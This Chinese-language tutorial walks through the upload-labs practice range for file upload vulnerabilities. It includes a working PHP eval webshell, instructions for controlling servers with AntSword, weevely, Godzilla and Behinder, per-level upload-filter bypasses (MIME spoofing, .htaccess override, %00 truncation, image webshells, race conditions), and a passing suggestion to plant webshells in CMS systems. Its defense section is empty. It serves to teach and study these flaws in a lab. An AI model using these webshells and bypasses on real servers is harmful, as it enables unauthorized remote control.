


# 文件上传漏洞

## 文件上传漏洞原理

首先要先部署环境，先从网盘下载upload,并移动到网站根目录，并且在phpstudy中创建网站

	

将写好的shell.php后门文件准备好。

```php
<?php
    #前两段是解决中文乱码问题
	header("Content-type:text/html;charset=gb1232");
	echo "<pre>";
	#eval函数可以把字符串作为php代码执行。前面的@是当执行出错不发出错误信息。
	@eval($_POST['wuya']); 
?>
```

选择一句话木马文件并上传提交。

	

于是目录中有一个一句话木马文件

	

于是通过wuya这个参数，用post参数传输操作系统命令，从而可以操纵这个服务器的操作系统。

其中system()函数能够让php代码执行操作系统指令

	

也可以获取d盘所有盘符的文件信息。

	

## 网站控制工具

分别对下面四个网站控制工具进行演示使用

	

### 中国蚁剑

按照参考文档，安装完中国蚁剑后，点击antsword.exe

	

在空白处右键点击添加数据,url就是上传的一句话木马文件，连接密码就是post参数，点击测试连接，确认连接成功

	

右键点击打开终端

	

于是通过工具来使用一句话木马操纵这个网站服务器。

	

### weevely

这个是kali自带的网站控制工具，首先通过该工具先生成密钥为wuya的木马。

	

在网站上传这个木马文件。

	

在该网站上，使用该木马文件

	

但是由于是linux系统对中文没有进行编码，有些看起来是乱码

	

### 哥斯拉godzilla

在github下载对应的jar包

		

先点击管理中生成，创建一个php的木马文件。

	

在网站上传生成的木马文件

	

在目标中新建shell

	

选择上传的木马文件，并且设置对应的php和加密，测试连接成功后，点击添加

	

右键进入即可使用命令执行web服务器。

	

### behinder冰蝎

github下载，并执行jar包

	

对应的目录是有木马文件，于是上传到对应网站。

	

	

右键新增shell,并设置连接密码

	

于是双击进入即可使用命令行窗口操作这个web服务器。

	

## 文件上传漏洞靶场安装

本靶场环境需要使用到php非nts版本的,而phpstudy都是nts版本的，所以有些功能在靶场中不能实现。

因此根据参考文档在win10安装php+apache.

在github下载

```
 https://github.com/c0ny1/upload-labs
```

下载解压，把目录放到apache根目录

	

于是靶场安装成功

	

## 文件上传靶场练习

### 第一关

根据第一关源代码可以发现，文件被设置了白名单，仅有jpg/png/gif后缀文件才可以上传。


前端页面当点击提交，就会触发checkfile函数。	

	

将onsubmit事件从前端代码 清除掉，再次上传shell.php后门文件。

	

但是上面从游览器修改前端的方法，对于高版本游览器不适用了

在火狐游览器可以修改安全设置，让该游览器不解析js事件，从而上传shell.php

	

设置为false

	

于是点击上传后门文件成功

	

于是测试连接成功后添加，即可操纵这个web服务器

	

### 第二关

分析源代码可以得知，对jpeg/png等图片文件进行过滤，使其无法上传。

	

常见的mime类型，从网页上传文件，后端会检查对应文件的mime类型，用于判断上传文件是否合法。

	

MIME的用法

	

于是可以通过bp抓包,让上传的文件类型被欺骗作为jpg文件,上传shell.php.

	

对content-type进行修改成jpeg,这样后端会认为是上传图片文件。

		

于是文件上传成功。

### 第三关

分析源代码，此时只要判断文件后缀是php的直接上传出错。

	

但php有很多的等价扩展后缀名，可以实现绕过

	

在网页服务端，需要在httpd.conf添加这一条配置信息，确保php3后缀也可以当作php文件识别。

	

于是客户端上传php3文件实现绕过上传。

	

### 第四关

这一关不仅对php进行文件过滤，也对同等价的文件后缀进行过滤

	

.htaccess文件是apache的配置文件,可以把某个文件当作代码php进行执行。于是可以想到把shell.php文件改后缀为jpg,在上传.htaccess文件来进行php代码解析。


写好.htaccess文件，并上传，通过该文件来配置apache把jpg文件当作php代码执行。

```html
.htaccess文件的配置信息如下
 <FilesMatch "a.jpg"> 
    SetHandler application/x-httpd-php 
 </FilesMatch>
```

	

将shell.php文件该成jpg文件后缀,并上传。

	

添加数据,于是即可通过jpg文件进行webshell控制服务端。

注意:在中国蚁剑中连接密码指的是post请求参数。

		

### 第六关

分析这关的源代码发现，对文件扩展名并没有进行转换成小写，那么过滤的时候只需把后缀名字改成大写即可过滤成功。

并且由于这关也对.htaccess文件进行过滤，所以不能使用原先的方法进行绕过了。

	

于是上传成功绕过。

	

由于后端代码对上传的文件名进行进一步处理，所以url地址会比较复杂。但是连接成功说明可以远程控制web服务器。

	

### 第七关

注意:要使得这关能通过，必须将php版本改成5版本nts的，并且要使用phpstudy的环境进行

与第六关相比，发现源代码，没有对文件后缀名进行两边去空，那么可以通过给后缀名加上空格来进行绕过。

并且由于微软在文件扩展名后面加空格会被默认去除，所以需要抓包进行修改。

	

用bp进行抓包，修改文件扩展名加上空格。于是上传文件成功。

	

### 第八关

注意:为了试验成功，必须使用php7的nts版本,并且要使用phpstudy的环境。

对比第七关源码发现，对文件扩展名后缀少处理删除文件名末尾的点号。于是可以加多一个点号进行绕过。

	

点击文件上传，用bp抓包，在文件扩展名修改加点号绕过过滤。

	

### 第九关

对比第八关源码发现，没有处理::$DATA这个特殊字符。

解释：在windows环境下，不光会自动去除文件末尾的点和空格，同时(::$DATA)这个字符串，windows也会认为是非法字符，默认去除掉

	

用bp抓包，后缀加上::$DATA这个特殊字符。

	

### 第十关

注意:实验要成功，需要把php版本改成5的nts版本。

分析源码发现，所有漏洞都给过滤了，但是这个先去除点号，再去除空格，那么我们可以先提前多加上点号和空格来进行绕过。

	

这样只会被过滤掉最后一个点号和空格符号，但是还多了一个点可以绕过扩展名过滤。于是即可上传文件成功。

	

### 第十一关

分析源码得知，会对黑名单扩展名处理为空。于是我们可以通过双写法进行绕过。

	

于是抓包对后缀名进行双写修改，即可上传文件成功。


### 第十二关

这关要成功，必须使用php5.5.9nts版本才行

	

	

分析源码发现这回只允许上传jpg等特定文件。并且根据源代码发现这次还会提交保存文件的路径参数，move_uploaded_file函数可以把两个参数进行拼接。这关img_path路径是通过get请求进行的

	

上传我们的shell.php文件，保存文件的路径进行修改成shell.php后面的%00会被url编码转义为截断字符,从而后续拼接的filename参数会失效。

	

### 第十三关

分析源码得知，与十二管相比，img_path路径通过post请求进行。

	

post请求由于不是从url传递，所以无法识别url编码，但是不知道截断字符是什么，所以点击左上角的hex

	

从十六进制中把+号改成截断字符。于是点击forward即可上传成功。

	

### 第十四关

图片马实现连接，必须使用本地apache搭建的环境才可以，phpstudy的不行。

每个对应文件都有对应的文件头格式，只有符合文件头的格式才能打开正常后缀的文件。

	

分析源码，发现自定义函数对文件进行读取前两字节，一般文件开头都是文件头，所以读取的不是指定后缀文件的文件头则会上传失败，比如想要把shell.php改后缀成图片文件是无法上传的，因为文件头不符合。

	

	

于是我们可以使用正常的图片文件，但是后面带有植入一句话木马代码。

首先制作图片马文件，准备一个正常的jpg文件，在通过拼接shell.php代码即可得到木马图片shell.jpg

```
copy smile.jpg /b + shell.php /a shell.jpg
```

		

如果是linux则命令如下

```
cat huaji.jpg shell.php > shell.jpg
```

但是这个靶场不能直接使用shell.jpg直接访问，可以通过该靶场提供的文件包含漏洞。这个文件包含的特性是会将我们所有包含进来的文件都以php进行解析

把图片马上传，并分析include.php源码，通过get请求来进行文件的包含获取。

	

在webshell连接工具中，使用include.php进行file参数传递，传递包含图片马文件，于是即可实现连接控制。

		

### 第十五关

本质上与第十四关是同理，通过getimagesize来判断文件类型是否为图片类型。如果是直接篡改后缀是无法上传成功的。

	

于是用之前做好的图片马上传即可。

### 第十六关

知识补充： exif_imagetype()读取一个图像的第一个字节并检查其后缀名。
返回值与getimage()函数返回的索引2相同，但是速度比getimage快得多。需要开启`php_exif`模块。

本关卡需要使用php版本中非nts的。并且在php扩展中要打开php_exif模块

	

然后使用原先的图片马进行上传。但是这个关卡不知道为何上传会失败。

### 第十七关(未复现)

分析源码发现，只要是图片后缀文件都会进行二次渲染。

	

这一关就没有前面几关简单了，他是会使用**imagecreatefromjpeg()**函数将我们的图片打散进行二次渲染，这就会导致我们的一句话木马消失，所以我们就要想办法在他没有打散的对方将我们的一句话写进去

比如我们把图片马上传上去。查看图片源码会发现之前的图片马的代码被二次渲染去除掉了。

所以马士兵自带的特殊图片文件，进行上传不会被二次渲染清除掉代码。

	

### 第十八关

分析以上代码，可以看到他的逻辑是先对文件进行了上传操作，然后在判断文件的扩展名在不在白名单中，如若在，进行重命名。不在则对其进行删除。

也就是说如果我们上传php文件，他会删除我们上传的木马。

这说明上传文件到判断删除该php文件有时间间隙，所以如果在删除之前，我们运行这个php从而生成木马文件，这样新的木马文件就顺利没有被删除掉。

	

这个是要上传的文件源代码，只要我们执行成功一次即可生成wuya.php的新木马文件。

	

上传文件时抓包，首先右键点击send to intruder,然后点击菜单中的Intruder

	

由于只是持续上传这个competiton.php文件，所以不需要使用payload。

	

自己创建线程池，使用20个线程一直上传该文件，然后点击start attack

	

一直访问自己上传的php文件，直到访问成功，说明这个后端代码执行成功，创建了wuya.php，于是一句话木马文件创建成功。

	

### 第十九关(未复现)

这一关用了白名单过滤文件名后缀，然后检查了文件大小以及文件是否已经存在。文件上传之后又对其进行了重命名。但是上传到重命名有时间间隔，可以利用一直发送文件，来使得访问到未改名的文件。

这一关卡上传文件路径会出问题，所以需要修改这一关这个文件的代码

	

于是我们上传shell.jpg文件。抓包并且按照第十八关的方式一直上传这个文件。

一直在中国蚁剑测试连接。寻求连接的机会。

	

### 第二十关

分析源代码可以看到，并没有对我们上传文件进行判断，只对我们用户输入的文件名做了判断并且也只是和黑名单进行了判断，并没有进行任何后缀过滤措施。那么很简单，利用windows的特性，windows会自动过去掉后缀的点（.）空格和::DATA这些特殊字符，在用户重命名文件的地方以php.结尾，那么就会跳出黑名单

	

于是在保存名称后面加个/. 由于微软会自动把后面的/.去除，所以是等价的，这样也骗过了后端检查代码

	

### 第二十一关(CTF题型数组绕过)

```
函数解释：

explode(a,b)函数以a为分割，把b转为数组。
reset()函数把数组内部指针移动到数组第一个元素，并返回值。
end() 把数组内部指针移动到数组最后一个元素，并返回值。
count()函数数组元素的数量。

漏洞来源：count()函数漏洞。

通过$file_name = reset($file) . '.' . $file[count($file) - 1];可以知道最终的文件名是由数组的第一个和最后一个元素拼接而成。如果是正常思维来讲，无论如何都是没有办法绕过的，但是第十一行代码给了一个提示。

这里有个判断，如果不是数组，就自己拆成数组，也就是说，我们是可以自己传数组进入的。
```

	

	

解释一下count函数漏洞。

```
漏洞来源：count()函数漏洞。

比如自定义一个数组 arr[]，定义arr[0]=1,arr[2]=2, 那么count(arr)的结果就是2，则arr[count(arr)-1]即为arr[1]，但是arr[1]未定义，即为一个空值，使用count()函数的本意是指向arr数组的最后一个元素，此时却指向arr[1]，形成数组漏洞。

```

上传该文件

	

首先content-type位置修改，是为了绕过白名单校验，save_name在修改成数组的形式进行传递，第一个元素是我们要上传的真正文件名，在故意在下标为2的位置传入jpg,进一步绕过后缀检查，最后利用count函数漏洞拼接空字符串，使得真正上传save_name[0]元素的文件。

点击forward上传成功。

	

## 文件漏洞发现与利用

除了常规思路，可以考虑使用数据库来写入一句话木马文件，或者在cms系统自己放入一个一句话木马给别人使用。

		

### 总结

	

```
根据前面文件上传靶场联系总结如下
1.想办法让游览器不解析js事件。
2.抓包改变content-type文件类型字段，绕过mime类型检测。
3.使用等价扩展名绕过，比如php,php3。
4.apache中的.htaccess文件解析漏洞,把jpg文件当作php代码解析。
5.把文件扩展名改成大小写，实现绕过。
6.利用操作系统漏洞,bp抓包对文件扩展名加空格或点号或者::$DATA特殊字符来绕过
7.对扩展名进行双写
8.若抓包得知上传文件路径，可以利用%00或者0x00截断配合写jpg扩展名来绕过。
9.制作图片马绕过。
10.遇到图片二次渲染，可以使用特殊图片做图片马，或者使用文件比对工具，查看文件哪部分没有被改动，把代码放入其中。
11.有些php文件可以上传到目录到删除有时间间隙，可以利用条件竞争执行生成一句话木马文件。
12.上传文件重命名也有时间间隔，可以利用条件竞争，使得连接成功。


```


## 文件上传漏洞防御

	

防御手段


​	


